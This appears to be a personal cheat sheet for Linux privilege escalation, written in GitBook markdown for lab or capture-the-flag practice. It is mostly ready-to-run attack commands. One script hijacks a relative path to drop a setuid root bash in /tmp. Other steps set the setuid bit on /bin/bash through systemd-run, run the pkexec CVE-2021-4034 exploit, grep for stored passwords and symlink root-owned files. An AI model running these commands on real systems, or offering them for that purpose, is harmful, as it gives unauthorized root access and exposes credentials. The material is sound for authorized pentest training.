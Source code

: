 ```yaml
---
icon: linux
---
```


# Linux Privilege Scalation

* ## <mark style="color:purple;">Get your own local version of this checklist:</mark>

{% embed url="https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist" %}
By Carlos Palop
{% endembed %}

***

{% hint style="info" %}
## <mark style="color:orange;">`sudo`</mark> <mark style="color:purple;">Permissions Chaining</mark>

{% code title="Lists allowed commands" %}
```bash
sudo -l
```
{% endcode %}

***

## <mark style="color:purple;">Relative Path Hijacking</mark>

* <mark style="color:purple;">Sometimes is possible to run scripts as</mark> <mark style="color:orange;">**`sudo`**</mark> <mark style="color:purple;">that call others scripts within the script.</mark>
* <mark style="color:purple;">When this scripts are called by a relative path is possible to create a malicious script on a directory with write permissions.</mark>
* <mark style="color:purple;">This commands creates a script called</mark> <mark style="color:orange;">**`initdb.sh`**</mark> <mark style="color:purple;">that well called will copy</mark> <mark style="color:orange;">**`bash`**</mark> <mark style="color:purple;">to a file called</mark> <mark style="color:purple;"></mark>_<mark style="color:purple;">**shellie**</mark>_ <mark style="color:purple;"></mark><mark style="color:purple;">in the</mark> <mark style="color:orange;">**`/tmp`**</mark> <mark style="color:purple;">folder:</mark>

```bash
echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/shellie\nchown root:root /tmp/shellie\nchmod 6777 /tmp/shellie' | tee initdb.sh
```

* <mark style="color:purple;">Once the  malicious script is executed by the vulnerable script, you just need to execute the shell from the</mark> <mark style="color:orange;">**`/tmp`**</mark> <mark style="color:purple;">folder to become</mark> <mark style="color:orange;">**`root`**</mark><mark style="color:purple;">:</mark>

```bash
/tmp/shellie -p 
```
{% endhint %}

























Netstat

```bash
#Option 1
netstat -l

#Ports
netstat -nltp

#More
netstat -rn
```

Look for files

```bash
#SUID
find / -perm -4000 -type f 2>/dev/null
find / -perm -4000 -or -perm -2000 2>/dev/null
#Binaries con capabilities
getcap -r / 2>/dev/null

#Extra info about bin process 
**getfacl** 

#Passwords
grep -iR "pass" *
grep password .*.* -r
#File
grep -ir cri-o . 2>/dev/null

#Look for a specific file
find / -name lcars 2>/dev/null
find / -name root.txt 2>/dev/null

#Inside a file
cat /etc/zabbix/zabbix_server.conf | grep -Ev "^#" | grep .

#Check libraries
ltrace

#Looking for 32 characters file
#hex
grep -aPo '[a-fA-F0-9]{32}' /dev/sdb
#string 32 chars
strings /dev/sdb -n 32
```

User Privileges

```bash
Check user root privileges —> sudo -l
```

Port Forwarding

```bash
ssh -L {TARGETPORT}:127.0.01:8000 [sau@](<mailto:sau@10.10.11.214>){TARGETIP}
```

Symbolic Link

```bash
ln -s /root/root.txt t.trace.db
```

Common Vectors

```bash
#systemd-run + bash -p
systemd-run chmod u+s /bin/bash
bash -p

#pkexec
python3 CVE-2021-4034.py
```

Flash drives

```bash
#Enumerate mounted disks
mount
#more
lsblk
```

SUDO

```bash
#Interective shell
sudo -i
#su vuln
sudo su -
```

